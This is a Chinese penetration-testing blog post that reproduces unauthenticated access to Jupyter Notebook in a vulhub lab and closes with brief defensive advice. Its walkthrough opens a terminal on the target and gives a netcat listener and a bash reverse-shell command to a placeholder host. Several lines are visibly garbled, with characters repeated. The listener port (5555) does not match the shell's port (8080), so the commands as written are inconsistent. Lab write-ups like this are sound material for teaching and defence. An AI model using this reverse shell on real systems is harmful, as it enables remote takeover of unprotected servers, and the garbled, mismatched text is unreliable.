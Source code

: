 ```yaml
---
title: Jupyter Notebook 未授权访问漏洞简单复现
top: false
cover: false
categories:
- 渗透测试
tags:
- 未授权访问
- 渗透测试
- Jupyter Notebook
abbrlink: 59687
date: 2020-05-25 23:12:17
keywords:
summary:
img:
password:
---
```



#### 简介及危害
Jupyter Notebook(此前被称为 IPython notebook)是一一个交互式笔记本,支支持运行行行 40 多种编
程语言言。 如果管理理员未为Jupyter Notebook配置密码,将导致未授权访问漏漏洞洞,游客可在其中创建一一
个console并执行行行任意Python代码和命令。


#### 环境介绍
```bash
# 目标
环境来源：https://github.com/vulhub/vulhub/blob/master/jupyter/notebook-rce/
ip地址： 192.168.0.100
```


#### 开始测试
1.运行测试环境：
```bash
docker-compose up -d
```

2.访问目标地址 http://192.168.0.100:8888

3.New > Terminal 创建控制台：可以直接执行任意命令
![](https://image.geoer.cn/smurf%E6%94%BB%E5%87%BB.png)

4.后面就直接执行任意命令，比如反弹shell等
```bash
# 本机监听
nc -lvp 5555

# 目标执行
bash -i >& /dev/tcp/x.x.x.x/8080 0>&1
```


#### 防御手段
- 开启身份验证, 防止止未经授权用用户访问
- 访问控制策略略, 限制IP访问, 绑定固定IP
